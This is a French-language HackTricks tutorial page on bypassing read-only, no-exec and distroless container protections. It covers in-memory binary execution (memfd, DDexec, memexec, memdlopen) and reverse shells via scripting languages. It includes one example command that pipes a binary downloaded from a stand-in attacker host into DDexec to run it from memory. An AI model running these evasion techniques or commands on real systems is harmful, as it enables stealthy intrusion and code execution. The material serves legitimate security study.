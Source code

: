 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR au** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos GitHub.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si vous êtes intéressé par une **carrière dans le hacking** et par le fait de hacker l'inhackable - **nous recrutons !** (_polonais courant écrit et parlé requis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Vidéos

Dans les vidéos suivantes, vous pouvez trouver les techniques mentionnées sur cette page expliquées plus en profondeur :

* [**DEF CON 31 - Explorer la manipulation de la mémoire Linux pour la furtivité et l'évasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusions furtives avec DDexec-ng & dlopen() en mémoire - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Scénario read-only / no-exec

Il est de plus en plus courant de trouver des machines Linux montées avec une **protection du système de fichiers en lecture seule (ro)**, en particulier dans les conteneurs. Cela est dû au fait qu'exécuter un conteneur avec un système de fichiers ro est aussi simple que de définir **`readOnlyRootFilesystem: true`** dans le `securitycontext` :

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Cependant, même si le système de fichiers est monté en ro, **`/dev/shm`** sera toujours écrivable, donc c'est faux de dire que nous ne pouvons rien écrire sur le disque. Cependant, ce dossier sera **monté avec une protection no-exec**, donc si vous téléchargez un binaire ici, vous **ne pourrez pas l'exécuter**.

{% hint style="warning" %}
D'un point de vue red team, cela rend **compliqué de télécharger et d'exécuter** des binaires qui ne sont pas déjà dans le système (comme des portes dérobées ou des énumérateurs comme `kubectl`).
{% endhint %}

## Contournement le plus simple : Scripts

Notez que j'ai mentionné des binaires, vous pouvez **exécuter n'importe quel script** tant que l'interpréteur est présent dans la machine, comme un **script shell** si `sh` est présent ou un **script python** si `python` est installé.

Cependant, cela ne suffit pas pour exécuter votre porte dérobée binaire ou d'autres outils binaires que vous pourriez avoir besoin d'exécuter.

## Contournements en mémoire

Si vous souhaitez exécuter un binaire mais que le système de fichiers ne le permet pas, le meilleur moyen de le faire est de **l'exécuter depuis la mémoire**, car les **protections ne s'appliquent pas là**.

### Contournement FD + syscall exec

Si vous avez des moteurs de script puissants dans la machine, tels que **Python**, **Perl** ou **Ruby**, vous pourriez télécharger le binaire à exécuter depuis la mémoire, le stocker dans un descripteur de fichier en mémoire (`create_memfd` syscall), qui ne sera pas protégé par ces protections, puis appeler un **syscall `exec`** en indiquant le **fd comme fichier à exécuter**.

Pour cela, vous pouvez facilement utiliser le projet [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Vous pouvez lui passer un binaire et il générera un script dans le langage indiqué avec le **binaire compressé et encodé en b64** avec les instructions pour **le décoder et le décompresser** dans un **fd** créé en appelant le syscall `create_memfd` et un appel au **syscall exec** pour l'exécuter.

{% hint style="warning" %}
Cela ne fonctionne pas dans d'autres langages de script comme PHP ou Node car ils n'ont pas de **méthode par défaut pour appeler des syscalls bruts** depuis un script, donc il n'est pas possible d'appeler `create_memfd` pour créer le **fd mémoire** pour stocker le binaire.

De plus, créer un **fd régulier** avec un fichier dans `/dev/shm` ne fonctionnera pas, car vous ne serez pas autorisé à l'exécuter en raison de la **protection no-exec**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) est une technique qui vous permet de **modifier la mémoire de votre propre processus** en écrasant son **`/proc/self/mem`**.

Ainsi, **en contrôlant le code assembleur** qui est exécuté par le processus, vous pouvez écrire un **shellcode** et "muter" le processus pour **exécuter n'importe quel code arbitraire**.

{% hint style="success" %}
**DDexec / EverythingExec** vous permettra de charger et **d'exécuter** votre propre **shellcode** ou **n'importe quel binaire** depuis **la mémoire**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Pour plus d'informations sur cette technique, consultez le Github ou :

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) est la prochaine étape naturelle de DDexec. C'est un **DDexec shellcode démonisé**, donc chaque fois que vous souhaitez **exécuter un binaire différent**, vous n'avez pas besoin de relancer DDexec, vous pouvez simplement exécuter le shellcode memexec via la technique DDexec et ensuite **communiquer avec ce démon pour passer de nouveaux binaires à charger et exécuter**.

Vous pouvez trouver un exemple sur la façon d'utiliser **memexec pour exécuter des binaires à partir d'un shell PHP inversé** dans [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Avec un objectif similaire à DDexec, la technique [**memdlopen**](https://github.com/arget13/memdlopen) permet une **manière plus facile de charger des binaires** en mémoire pour les exécuter par la suite. Cela pourrait même permettre de charger des binaires avec des dépendances.

## Bypass Distroless

### Qu'est-ce que distroless

Les conteneurs distroless contiennent uniquement les **composants minimaux nécessaires pour exécuter une application ou un service spécifique**, tels que des bibliothèques et des dépendances d'exécution, mais excluent des composants plus volumineux comme un gestionnaire de paquets, un shell ou des utilitaires système.

L'objectif des conteneurs distroless est de **réduire la surface d'attaque des conteneurs en éliminant les composants inutiles** et en minimisant le nombre de vulnérabilités pouvant être exploitées.

### Reverse Shell

Dans un conteneur distroless, vous pourriez **même ne pas trouver `sh` ou `bash`** pour obtenir un shell régulier. Vous ne trouverez également pas de binaires tels que `ls`, `whoami`, `id`... tout ce que vous exécutez habituellement dans un système.

{% hint style="warning" %}
Par conséquent, vous **ne pourrez pas** obtenir un **reverse shell** ou **énumérer** le système comme vous le faites habituellement.
{% endhint %}

Cependant, si le conteneur compromis exécute par exemple un web flask, alors python est installé, et donc vous pouvez obtenir un **reverse shell Python**. S'il exécute node, vous pouvez obtenir un shell rev Node, et c'est la même chose avec presque n'importe quel **langage de script**.

{% hint style="success" %}
En utilisant le langage de script, vous pourriez **énumérer le système** en utilisant les capacités du langage.
{% endhint %}

S'il n'y a **pas de protections `read-only/no-exec`**, vous pourriez abuser de votre reverse shell pour **écrire dans le système de fichiers vos binaires** et **les exécuter**.

{% hint style="success" %}
Cependant, dans ce type de conteneurs, ces protections existeront généralement, mais vous pourriez utiliser les **techniques d'exécution en mémoire précédentes pour les contourner**.
{% endhint %}

Vous pouvez trouver des **exemples** sur la façon d'**exploiter certaines vulnérabilités RCE** pour obtenir des **reverse shells** de langages de script et exécuter des binaires à partir de la mémoire dans [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si vous êtes intéressé par une **carrière en hacking** et par le fait de hacker l'inhackable - **nous recrutons !** (_polonais courant écrit et parlé requis_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR au** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
